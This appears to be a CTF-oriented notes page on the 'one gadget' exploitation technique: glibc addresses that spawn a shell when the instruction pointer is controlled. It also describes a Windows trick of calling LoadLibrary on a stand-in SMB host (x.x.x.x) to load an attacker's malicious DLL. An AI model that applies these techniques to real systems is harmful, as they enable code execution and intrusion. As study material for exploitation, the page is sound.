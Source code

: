 # One Gadget (also "bespoke gadget")

_First time heard about this in a [video of Murmus](https://www.youtube.com/watch?v=kEqOvWmzu6Y)._

Sometimes you can get control over EIP/RIP but you don't control the argument passed to the function you're calling. This is for example the case when you overwrite a .got.plt entry or you can overwrite some function pointer on the stack but you don't control the arguments passed to that function. DragonSector discovered that there are some addresses in glibc that you can call without explicitely having to prep a "/bin/sh" string that will give you a shell (so exec*() is called).

There might be other conditions required to be able to get a shell (certain value on the stack to be NULL/0x00000000, ...) apart from the basic conditions:
* You need to know the libc base address (otherwise you can't call your function, right?)
* You need to know which version of libc (hopefully they gave you a libc binary with your challenge)
* You get stdout output.

David942j also discusses the problems with one-gadgets for 32-bit systems. Since x86 uses the stack for function parameters and not registers like x64 it is more difficult to find the constraints for a 32-bit rop gadget (one_gadget uses symbolic execution to resolve constraints). Accessing the data segment in x64 is done by rip+offset which is very straightforward. Accessing the data segment in x86 is done by using 'a' register as base address to the rw-p segment of libc in memory. Sadly, some registers are callee safe (their value is saved (pushed) on the stack and popped back by the callee) which makes it impossible (not sure if hard to do or impossible) to use. Luckily, esi is not callee save and you can write the base address of the rw-p segment in it before calling the one-gadget. (I don't really understand it fully actually :P I'll figure it out eventually and change these last sentences when I'm smarter...)

* Source: [dragons_ctf.pdf](http://j00ru.vexillium.org/blog/24_03_15/dragons_ctf.pdf)
* Source: [Project One Gadget in glibc](https://david942j.blogspot.be/2017/02/project-one-gadget-in-glibc.html)
* Source: [One gadget in Ubuntu 16.04](https://kimiyuki.net/blog/2016/09/16/one-gadget-rce-ubuntu-1604/)

## Gadgets

A premade list: [https://kimiyuki.net/blog/2016/09/16/one-gadget-rce-ubuntu-1604/](https://kimiyuki.net/blog/2016/09/16/one-gadget-rce-ubuntu-1604/)

Run [one_gadget](https://github.com/david942j/one_gadget) on you libc.

### Windows One Gadget

system() on Windows is implemented in MSVCRT.dll. However, this DLL is not always loaded. If it is loaded then you can get your one gadget if it's not loaded you can abuse LoadLibrary("\\x.x.x.x\yourSpecialDll.dll") to fetch a DLL over SMB at the x.x.x.x IP adress. You just need to setup an open remote SMB server that serves your mallicious DLL. In the DLL put your code in DllMain that is automatically called when loading a DLL.

* Source: [dragons_ctf.pdf](http://j00ru.vexillium.org/blog/24_03_15/dragons_ctf.pdf)

